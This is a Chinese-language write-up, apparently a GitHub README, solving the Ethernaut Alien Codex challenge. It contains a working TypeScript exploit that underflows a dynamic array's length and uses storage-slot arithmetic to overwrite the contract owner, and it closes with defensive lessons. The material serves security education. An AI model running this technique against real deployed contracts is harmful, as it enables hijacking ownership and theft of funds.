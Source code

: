 # Ethernaut - Alien Codex 解題紀錄

這個專案是 [Ethernaut](https://ethernaut.openzeppelin.com/) 智能合約安全闖關遊戲中 Alien Codex 關卡的解題方案。

## 挑戰目標

在 Alien Codex 挑戰中，我們需要奪取合約的所有權（將 owner 改為我們的地址）。

## 合約分析

這個合約繼承了 `Ownable` 合約，並且包含以下主要組件：

```solidity
contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## 漏洞分析

合約中存在兩個主要漏洞：

1. **整數下溢（Integer Underflow）**：在 `retract()` 函數中，當 `codex` 陣列為空時，`codex.length--` 會導致長度下溢，變成 2^256-1，這讓我們可以存取任意的儲存位置。

2. **儲存佈局知識**：利用 Solidity 儲存佈局的知識，我們可以通過操作 `codex` 陣列來修改合約的 `owner` 變數。

## 解題思路

解題步驟如下：

1. 調用 `makeContact()` 來設置 `contact = true`，這樣我們才能使用其他需要 `contacted` 修飾器的函數。

2. 調用 `retract()` 函數造成 `codex` 陣列長度下溢，讓我們能夠存取任意儲存位置。

3. 計算出儲存 `owner` 變數的位置對應的 `codex` 陣列索引：
   - Solidity 中動態陣列 `codex` 的資料是從 `keccak256(slot_of_codex) + 0, 1, 2, ...` 開始
   - `owner` 變數在儲存槽 0
   - `codex` 陣列在儲存槽 1
   - 因此我們需要找到一個索引 `i`，使得：`keccak256(1) + i ≡ 0 (mod 2^256)`
   - 所以 `i = 2^256 - keccak256(1)`

4. 調用 `revise(i, address)` 函數，傳入計算出的索引和我們的地址（填充為 32 bytes），將 `owner` 變更為我們的地址。

## 程式碼實現

```typescript
// 1. makeContact
await alienCodex.makeContact();

// 2. 透過 retract 造成整數下溢，讓 codex 陣列長度變為 2^256-1
await alienCodex.retract();

// 3. 計算 owner 位置的陣列索引
const codexArrayStorageSlot = "0x0000000000000000000000000000000000000000000000000000000000000001";
const codexDataStartStorageSlot = ethers.keccak256(codexArrayStorageSlot);
const NUMBER_OF_SLOTS = BigInt(2) ** BigInt(256);
const ownerPositionInMap = NUMBER_OF_SLOTS - BigInt(codexDataStartStorageSlot);

// 4. 利用 revise 將 owner 改為我們的地址
const parsedAddress = ethers.zeroPadValue(signer.address, 32);
await alienCodex.revise(ownerPositionInMap, parsedAddress);
```

## 學習要點

1. **Solidity 儲存佈局**：了解 Solidity 如何在儲存中佈局變數，特別是繼承合約時的儲存佈局和動態陣列的儲存方式。

2. **整數下溢風險**：在 Solidity 0.8.0 版本之前，整數運算沒有自動檢查溢出/下溢，這導致了許多安全漏洞。

3. **EVM 儲存機制**：了解 EVM 的儲存槽機制，每個槽位 32 字節，以及如何通過操作一個變數間接改變另一個變數。

4. **陣列存取控制**：合約應該實現嚴格的陣列索引範圍檢查，防止越界存取。

5. **合約安全性**：這個挑戰強調了在智能合約開發中理解底層實現細節的重要性。

## 防禦措施

要防止類似的漏洞，可以採取以下措施：

1. 使用 SafeMath 庫或 Solidity 0.8.0+ 版本來防止整數溢出/下溢。
2. 實現嚴格的存取控制和索引範圍檢查。
3. 確保陣列操作安全，特別是在減少長度時。
4. 對敏感操作（如更改所有權）實施多重驗證機制。

## 總結

Alien Codex 挑戰展示了 Solidity 儲存佈局和整數下溢的結合可能導致的嚴重安全漏洞。通過理解 EVM 的工作原理，我們能夠巧妙地利用合約中的設計缺陷來劫持合約的所有權。
